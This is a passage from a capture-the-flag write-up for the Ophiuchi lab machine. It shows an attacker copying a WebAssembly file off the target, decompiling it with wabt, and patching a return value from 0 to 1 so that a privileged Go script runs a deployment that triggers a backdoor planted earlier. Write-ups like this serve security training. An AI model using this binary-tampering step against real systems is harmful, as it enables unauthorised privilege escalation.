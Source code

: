 Googling around about information on wasm files and how to work with them, a GitHub repository named **WebAssembly Binary Toolkit** ([wabt](https://github.com/WebAssembly/wabt)) showed up. The toolkit allowed to transform `.wasm` file into `.wat` (WebAssembly Text), edit them and then rebuild `.wat` into `.wasm` files. This allowed to create a **file that would have executed the deployment** and therefore the backdoor created previously.

To begin with, after installing wabt the wasm file was downloaded using `scp` and was decompiled to understand its functionality:
```bash
┌──(kali㉿kali)-[~/…/Ophiuchi/exploit/wabt/build]
└─$ scp admin@10.10.10.227:/home/admin/main.wasm ../../main.wasm
admin@10.10.10.227 password:
main.wasm

┌──(kali㉿kali)-[~/…/box/Ophiuchi/exploit/wabt]
└─$ bin/wasm-decompile ../main.wasm -o ../main.dcmp

┌──(kali㉿kali)-[~/…/box/Ophiuchi/exploit/wabt]
└─$ cat ../main.dcmp
export memory memory(initial: 16, max: 0);

global g_a:int = 1048576;
export global data_end:int = 1048576;
export global heap_base:int = 1048576;

table T_a:funcref(min: 1, max: 1);

export function info():int {
  return 0
}
```

Having understood how it works and figured out where to make the change that would allow the go script to be controlled, the wasm file was **transformed into wat**, it was **modified**, and it was **transformed back into wasm** again.
```bash
┌──(kali㉿kali)-[~/…/box/Ophiuchi/exploit/wabt]
└─$ bin/wasm2wat ../main.wasm
(module
  (type (;0;) (func (result i32)))
  (func $info (type 0) (result i32)
    i32.const 0)
  (table (;0;) 1 1 funcref)
  (memory (;0;) 16)
  (global (;0;) (mut i32) (i32.const 1048576))
  (global (;1;) i32 (i32.const 1048576))
  (global (;2;) i32 (i32.const 1048576))
  (export "memory" (memory 0))
  (export "info" (func $info))
  (export "__data_end" (global 1))
  (export "__heap_base" (global 2)))

┌──(kali㉿kali)-[~/…/box/Ophiuchi/exploit/wabt]
└─$ bin/wasm2wat ../main.wasm -o ../main.wat

┌──(kali㉿kali)-[~/…/box/Ophiuchi/exploit/wabt]
└─$ nano ../main.wat
...
(func $info (type 0) (result i32)
    i32.const 1)
...
┌──(kali㉿kali)-[~/…/box/Ophiuchi/exploit/wabt]
└─$ bin/wat2wasm ../main.wat -o ../test.wasm
```
